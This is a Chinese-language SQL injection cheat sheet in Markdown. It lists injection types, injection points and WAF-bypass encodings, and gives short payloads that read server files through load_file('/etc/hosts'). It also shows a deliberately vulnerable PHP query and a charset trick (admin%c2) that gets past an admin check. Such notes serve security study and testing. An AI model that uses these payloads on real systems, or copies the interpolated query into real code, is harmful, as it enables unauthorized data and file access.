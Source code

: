 # SQL注入
---
## 类别
### 联合查询注入
### 报错注入
1. updatexml()
2. floor()
3. exp()
### Bool盲注
### 时间盲注
1. sleep()
2. benchmark()
### 二次注入
---
## 注入点
#### GET参数
#### POST注入
#### User-Agent注入
#### Cookies注入
---
## 绕过
### 过滤关键字
1. 无递归过滤时select --> selselectect
2. 大小写过滤select --> SelECt
3. 十六进制过滤select --> selec\x74
4. 双重url编码过滤 or --> %25%36%66%25%37%32
### 过滤空格
1. 注释绕过 #、--、//、/**/、；%00
```
select/**/username/**/from/**/user
```
2. URl编码绕过
```
通过二次url编码绕过，%20 --> %2520
```
3. 通过空白字符绕过，在数据库中存在一些空白字符
4. 特殊符号(反引号，加号)
```
select`user`,password`from..
```
5. 科学计数法
```
select user,password from users where user_id=0e1union select 1,2...
```
---
## 读写文件
1. load_file()
```
?id=-1+union+select+load_file('/etc/hosts')
十六进制过滤?id=-1+union+select+load_file('0x2f6574632f686f737473')
```
2. outfile
3. dumpfile
### 猜字段个数
* 在注入点后面加order by x
### Union all
union all只是简单的将两个结果合并后就返回。这样，如果返回的两个结果集中有重复的数据，那么返回的结果集就会包含重复的数据了。

### MSSQL
*  is_srvrolemember ('sysadmin')函数是用来判断当前的数据用户是否属于管理员组权限
---
## 高级绕过方法
### 利用字符串编码来绕过php检测
Mysql字段的字符集和php mysqli客户端设置的字符集不相同
例如佬这个汉字的UTF-8编码是xE4xBDxAC
我们依次使用xE4,xE4xBD,xE4xBDxAC作为参数传入
能够发现前两个都可以成功，但是第三个(佬的完整编码)会引发一个错误
这是因为在utf8转换为latin1时,latin1并不支持汉字,而之前并没有报错是因为编码不完整,Mysql进行转换时自动将其忽略
```
if ($username === 'admin') {
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
        die('Permission denied!');
    }
}
$result = $mysqli->query("SELECT * FROM z_users where username = '{$username}' and password = '{$password}'");
```
此时传入username=admin%c2，php的检测if ($username === 'admin')自然就可以绕过的，在mysql中可以正常查出username='admin'的结果。